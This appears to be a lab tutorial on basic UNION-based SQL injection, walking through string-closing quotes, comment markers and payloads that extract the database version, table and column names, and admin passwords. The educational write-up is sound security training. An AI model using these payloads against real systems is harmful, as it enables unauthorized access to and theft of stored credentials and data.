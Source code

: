 
# 🧐 SQL Injection Lab [0x01] - Basic SQL Injection Attacks

---

## 🧐 Understanding SQL Injection

### 🔍 Basic SQL Injection

When you search for `jeremy`, the back-end SQL query might look like this:

```sql
SELECT username, email FROM users WHERE username = 'jeremy'
```

---

## 🤯 Injecting SQL

### 1. Why the Single Quote (`'`)?

The single quote (`'`) is used to terminate the string `'jeremy'` in the SQL query. This allows the injection of additional SQL commands.  
Example:
```sql
... WHERE username = 'jeremy' -- Here we end the input
```

---

### 2. Use of `UNION SELECT`

`UNION` combines results of two or more `SELECT` queries. After closing the initial query with a single quote, `UNION` allows you to add another `SELECT` query to fetch different data.

Example:
```sql
... ' UNION SELECT 1, 2, 3 -- Adding a new SELECT query
```

The `null` values are placeholders. If the original query expects two columns, you must match that format:
```sql
UNION SELECT null, null, version()
```

---

### 3. Why `version()`?

The `version()` function in SQL returns the current database version. This helps gather information about the database for further attacks or analysis.

---

### 4. Role of `#`

The `#` character is a comment indicator in SQL. Everything after `#` is ignored by the SQL parser, neutralizing the rest of the original query and ensuring only the injected SQL executes.

Example:
```sql
... version()# -- Rest of the original SQL is ignored
```

---

## 📋 Example in Action

Injection:
```sql
jeremy' UNION SELECT null, null, version()#
```

Resulting Query:
```sql
SELECT username, email FROM users WHERE username = 'jeremy' UNION SELECT null, null, version()#'
```

---

## 🧐 Detailed Breakdown of SQL Injection Handling

### How SQL Injection Manipulates the Query

1. **Original Query Setup**:
    ```sql
    SELECT username, email FROM users WHERE username = 'INPUT'
    ```

2. **Attacker's Input**:
    - Input:
      ```
      Jeremy' UNION SELECT username, password FROM admin_users --
      ```
    - The input includes a single quote (`'`) to prematurely close the string and append malicious SQL commands.

3. **Query After Injection**:
    ```sql
    SELECT username, email FROM users WHERE username = 'Jeremy' UNION SELECT username, password FROM admin_users -- '
    ```

4. **Effect of the Injection**:
    - **String Closure:** The first single quote in `Jeremy'` closes the string opened by `'INPUT'`.
    - **Command Insertion:** The `UNION SELECT` command is added, fetching unauthorized data.
    - **Commenting Out:** The `--` ensures the rest of the query is ignored.

5. **Execution of the Modified Query**:
    - **Active Part:** The SQL engine executes the query up to the comment marker (`--`).
    - **Ignored Part:** Everything after `--` is disregarded, including any extraneous quotes.

---

## 💡 Key Takeaways

- SQL Injection manipulates SQL queries to access or manipulate unauthorized data.
- Techniques like `UNION SELECT`, `version()`, and `#` comments play critical roles in successful SQL Injection attacks.
- Understanding these attack vectors is essential to building secure systems.

---

### 📋 Summary of Example Injection Steps:

1. Extract database version:
    ```sql
    jeremy' UNION SELECT null, null, version()#
    ```

2. Extract table names:
    ```sql
    jeremy' UNION SELECT null, null, table_name FROM information_schema.tables#
    ```

3. Extract column names:
    ```sql
    jeremy' UNION SELECT null, null, column_name FROM information_schema.columns#
    ```

4. Extract sensitive data:
    ```sql
    jeremy' UNION SELECT null, null, password FROM admin_users#
    ```

---

This lab demonstrates the severity of SQL Injection vulnerabilities and emphasizes the importance of sanitizing user input and using parameterized queries.
